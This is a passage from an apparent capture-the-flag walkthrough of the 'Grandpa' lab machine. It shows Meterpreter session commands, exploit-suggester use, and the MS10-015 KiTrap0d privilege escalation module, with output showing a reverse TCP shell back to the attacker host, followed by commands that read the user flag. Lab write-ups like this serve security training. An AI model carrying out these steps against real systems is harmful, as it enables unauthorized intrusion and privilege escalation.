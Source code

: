 **Command/Code:**
```bash
getuid
sysinfo
shell
whoami
```

**Output:**
```
Server username: NT AUTHORITY\IUSR
Computer        : GRANDPA
OS              : Windows 2003 (Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
```

### Step 5: Privilege Escalation
Check for privilege escalation opportunities.

**Command/Code:**
```bash
background
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

### Step 6: MS10-015 Exploitation
Use the MS10-015 exploit for privilege escalation.

**Command/Code:**
```bash
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 1
exploit
```

**Output:**
```
[*] Started reverse TCP handler on 10.10.14.2:4445 
[*] Writing payload file to C:\WINDOWS\Temp\cVQJhV.exe
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 2 opened (10.10.14.2:4445 -> 10.10.10.14:32892) at 2024-09-03 10:10:23 +0000
```

### Step 7: Find User Flag
Search for the user flag.

**Command/Code:**
```bash
getuid
dir C:\Documents and Settings
dir "C:\Documents and Settings\haris\Desktop"
type "C:\Documents and Settings\haris\Desktop\user.txt"
```
